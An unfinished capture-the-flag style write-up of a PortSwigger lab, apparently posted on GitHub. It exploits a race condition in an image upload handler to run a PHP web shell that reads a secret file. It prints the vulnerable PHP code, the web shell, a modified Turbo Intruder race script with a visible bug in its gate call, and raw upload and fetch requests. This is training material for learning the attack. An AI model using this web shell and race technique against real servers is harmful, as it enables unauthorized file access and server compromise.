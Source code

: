 # Lab: Web shell upload via race condition

## Description

 This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 

## Hint

 The vulnerable code that introduces this race condition is as follows: 
 
 ```php
 <?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
 ```
 
 # Step 1 Source Code review
 
 Since we have access to the source code for this lab, I should review first to get an idea of what is happening. I can see that my uploaded file is first moved to a temp directory, then checked for filetype and if it has "viruses". From viewing this it may be possible to access my file from within the temp directory, before the server finishes the validation checks and deletes it.
 
 # Step 2 Upload get_secret.php and execute before validation completes
 
 
 Contents of get_secret.php
 ```php
 <?php echo file_get_contents('/home/carlos/secret'); ?>
 ```
 But when uploading it I get this error:
 
 ![image](https://user-images.githubusercontent.com/83407557/171276226-ade47fed-7433-46a8-8789-6656e4b12e28.png)

# Step 3 Create a turbo intruder attack

I send that failed post request to burp intruder and check out the [documentation](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py)

![image](https://user-images.githubusercontent.com/83407557/171276482-470dd853-4aeb-4250-b058-ee984c9ae213.png)

I take a look at the code example for race conditions

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)

```
## Modifying the code

Looking at the example, I want to change a few things. First I don't want it to do 30 POST requests, I want 1 POST request for my file, and then 30 get requests for the race condition. First I will write the code with place holders then get the two requests and modify them into the script.


I will replace this python code
```python
 # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')

```

With this one containing variable placeholders

```python

    post_req = '''placeholder'''

    get_req = '''placeholder'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(post_req, gate='race1')
    for x in range(30):
        engine.queue(get_req, gate='race1')
        engine.openGate='race1'
```

now I need to get the POST request from my proxy history

```
POST /my-account/avatar HTTP/1.1
Host: acd11fef1e18a8abc0672d1400d400a6.web-security-academy.net
Cookie: session=hSVrEyCK3amLHtv1GtLohmt2rfO30rNF
Content-Length: 473
Cache-Control: max-age=0
Sec-Ch-Ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://acd11fef1e18a8abc0672d1400d400a6.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RU4sTTBWwQ6yNnY
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://acd11fef1e18a8abc0672d1400d400a6.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary3RU4sTTBWwQ6yNnY
Content-Disposition: form-data; name="avatar"; filename="get_secret.php"
Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundary3RU4sTTBWwQ6yNnY
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary3RU4sTTBWwQ6yNnY
Content-Disposition: form-data; name="csrf"

AeNj0jwzMKHX2x6HMNFfbxdIEip6p9ad
------WebKitFormBoundary3RU4sTTBWwQ6yNnY--

```

And then my get request 

```
GET /files/avatars/get_secret.php HTTP/1.1
Host: acd11fef1e18a8abc0672d1400d400a6.web-security-academy.net
Cookie: session=hSVrEyCK3amLHtv1GtLohmt2rfO30rNF
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

### Putting the code together
 needs work
